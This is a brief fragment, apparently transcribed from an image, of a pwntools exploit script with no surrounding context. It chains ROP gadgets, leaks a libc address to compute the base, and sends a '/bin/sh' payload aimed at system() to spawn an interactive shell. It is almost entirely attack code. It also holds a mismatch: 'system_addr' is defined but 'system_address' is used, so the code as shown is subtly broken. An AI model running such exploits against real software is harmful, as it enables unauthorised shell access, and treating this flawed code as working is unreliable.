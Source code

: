 ```
payload += p64(pop_rbp)
payload += p64(0x404010+0x20)
payload += p64(pop_rcx)*70
payload += p64(put_rbp_0x20)

p.sendline(payload)

leak = p.recvuntil("\x7f")[-6:].ljust(8, b"\x00")
libc.address = u64(leak) - 0x87be0

system_addr = libc.symbols.get("system")


payload = b"/bin/sh\x00" + b"A"*24
payload += p64(0xdeadbeef) + p64(system_address)
p.sendline(payload)

p.interactive()
```
